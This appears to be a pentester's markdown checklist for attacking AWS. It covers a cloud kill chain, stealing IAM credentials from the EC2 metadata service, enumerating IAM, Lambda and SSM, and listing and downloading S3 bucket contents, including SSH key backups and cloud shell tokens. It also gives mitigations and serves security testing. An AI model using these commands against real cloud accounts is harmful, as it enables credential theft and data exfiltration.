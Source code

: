 # Cloud basics
### Cloud kill Chain
![Untitled](../Media/Cloud/Untitled.png)

A kill chain is useful to conceptualize and associate the steps that attackers might take in different phases of their operation.
Recon involves enumeration and foot-printing of the cloud infrastructure attack surface, as well as interacting with publicly exposed cloud services. Low hanging fruit such as S3 buckets and Azure/GCP storage buckets might yield cloud and SSH keys, passwords, confidential documents and personally identifiable information (PII). With access to keys or other credentials, we could look to infiltrate the target environment. Initial situational awareness activities will be undertaken, such as identification of other cloud resources and of the permissions and privileges associated with their current user or application.

With a foothold in the cloud infrastructure, we would then look to undertake privilege escalation activities. Privilege escalation within a specific cloud resource or the general cloud environment is useful, as it allows us to undertake additional activities, such as accessing other users’ data and cloud shell files, or capture traffic, and demonstrates the impact of our compromise. Being able to assume the role of a more privileged user also increases the likelihood of us being able to move laterally between cloud resources, accounts (AWS), projects (GCP) resource groups (Azure), or move laterally from an Azure tenant to an on-prem AD domain. In the final stage, we can demonstrate impact by the secure exfiltration of resources (assuming that this has been approved by the client).

### AWS Systems Manager (SSM) VS AWS Secrets Manager
SSM allows us to view and control our infrastructure on AWS.
SSM parameters allows for securely storing and managing sensitive information and configuration data. We can store data such as passwords, database connection strings, and license codes as parameter values. SSM and AWS Secrets Manager differ in cost and functionality. SSM is more cost-effective with free standard parameters up to 10,000 entries, while Secrets Manager charges for API calls and per secret monthly. 

Secrets Manager offers automatic password generation and rotation, which SSM lacks. 
Secrets Manager is recommended for comprehensive secret management, while SSM is a cost-friendly, basic solution.

# Checklist
## Computing Enum

> The Instance Metadata service is bound to the IP address 169.254.169.254, which is an internal link-local address that is not exposed or routable externally. We can interact with the service locally via a REST API.

This metadata can contain sensitive information such as credentials, if the administrators have attached an IAM role to the EC2 instance. As the metadata is only accessible internally, this may not appear to be particularly interesting from a security perspective. The presence of this metadata, on the other hand, makes Server-Side Request Forgery (SSRF) vulnerabilities in applications that are hosted on compute instances even more serious.

While the methods discussed in this post will work in cases where the legacy version of Instance Metadata Service (IMDSv1) is enabled, they won’t work with the more secure IMDSv2, which requires token authentication. However, IMDSv1 is still enabled by default, which means that this problem is still extremely important.
> 
- [ ]  Issue the command below to return the EC2 metadata `curl 169.254.169.254/latest/meta-data/`
- [ ]  If you reached the meta data visit the route  `/latest/meta-data/iam/info`
    
    ![Untitled](../Media/Cloud/Untitled%201.png)
    
- [ ]  `/latest/meta-data/iam/security-credentials/{USER}`in the example the user is `support`
    
    ![Untitled](../Media/Cloud/Untitled%202.png)
    
    > The `AccessKeyId` and `SecretAccessKey` are used to sign programmatic requests that we make to AWS (like username and pass). We also see a time-limited session token, provided by the AWS Security Token Service (AWS STS), that allows us to authenticate to cloud resources.
    > 
- [ ]  The command `aws configure`  allows us to save these values to an AWS credentials file, located at `~/.aws/credentials`

![Untitled](../Media/Cloud/Untitled%203.png)

- [ ]  `aws configure set aws_session_token "<token_value>"` to store session token
- [ ]  `aws sts get-caller-identity` like whoami for awscli
- [ ]  `aws iam list-attached-user-policies --user-name {USERNAME}` to list the privileges
- [ ]  Best practices:
    1. Utilize version 2 of the Instance Metadata Service (IMDSv2).
    2. If you need to assign an IAM role to an EC2 instance, ensure that this only has the minimum permissions needed to perform the required tasks (in line with the principle of least privilege).
    3. Be mindful that the presence of instance metadata can make vulnerabilities such as SSRF much more dangerous.

## User Enum

- [ ]  list policies attached to a user `aws iam list-user-policies --user-name <USERNAME>`
    
    ![Untitled](../Media/Cloud/Untitled%204.png)
    
- [ ]  Get the user policy document with details 
`aws iam list-user-policies --user-name <USERNAME>`
    
    ![Untitled](Cloud%20Pentesting%200b11d67ddeaa4b008990c9bda18d9fe3/Untitled%205.png)
    
- [ ]  Retrieving a param with SSM:`aws ssm get-parameter --name <PARAM NAME>`
- [ ]  Listing the available Lambda functions 
`aws lambda list-functions --query 'Functions[].[FunctionName, Runtime, LastModified]' --output table`
- [ ]  Invoking the function works 
`aws lambda invoke --function-name crew_administration_data output.txt`
- [ ]  use [aws-enumerator](https://github.com/shabarkin/aws-enumerator)  `aws-enumerator enum -services all`
- [ ]  listing all the policies attatched to a user
`aws iam list-attached-user-policies --user-name ext-cost-user`
- [ ]  getting a specific ploicy with ARN
`aws iam get-policy --policy-arn arn:aws:iam::427648302155:policy/ExtPolicyTest`
- [ ]  getting the policy document with its ARN 
`aws iam get-policy --policy-arn arn:aws:iam::427648302155:policy/Policy`
- [ ]  getting the policy document with its ARN and version `aws iam get-policy-version --policy-arn arn:aws:iam::427648302155:policy/Policy --version-id v4`
    
    ![Untitled](../Media/Cloud/Untitled%206.png)
    
- [ ]  listing attached policies
`aws iam list-attached-user-policies --user-name ext-cost-user` 
`aws configure set aws_session_token "<token>"`
- [ ]  Getting the Account ID with Access key
`aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP`

## Storage and S3 Enum

- [ ]  Use `dig & dig -x` commands on the domain to see DNS info
- [ ]  Inspect the website source code for any related links for buckets like:
    
    ![Untitled](../Media/Cloud/Untitled%207.png)
    
- [ ]  install `AWS CLI`   using `sudo pip install awscli --upgrade --user`
- [ ]  check if these buckets are accessible by listing the content `aws s3 ls s3://megabank-supportstorage --recursive`
- [ ]  you can search for publicly available buckets here https://buckets.grayhatwarfare.com/
- [ ]  Perform `curl -i https://<yourS3 domain>` to see headers of the response and to know what region the bucket in
- [ ]  search for sensitive info and download files by `aws s3 sync s3://megabank-supportstorage/pentest_report/`
- [ ]  Checking the bucket policy `aws s3api get-bucket-policy --bucket hl-it-admin`
    
    ![Untitled](../Media/Cloud/Untitled%208.png)
    
- [ ]  Transferring files frim the S3 to ur PC `aws s3 cp s3://hl-it-admin/ssh_keys/ssh_keys_backup.zip .`
- [ ]  Best Practice:
    1. Don’t enable public access for cloud storage if this is not required.
    2. Don’t store confidential information on cloud storage that might be legitimately configured for public access.
    3. Name cloud storage appropriately so that it is obvious what the storage is for.

```
## asking for aws key and secret key from the cloud shell
-----------------------------------------------------------------------------------
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"

```


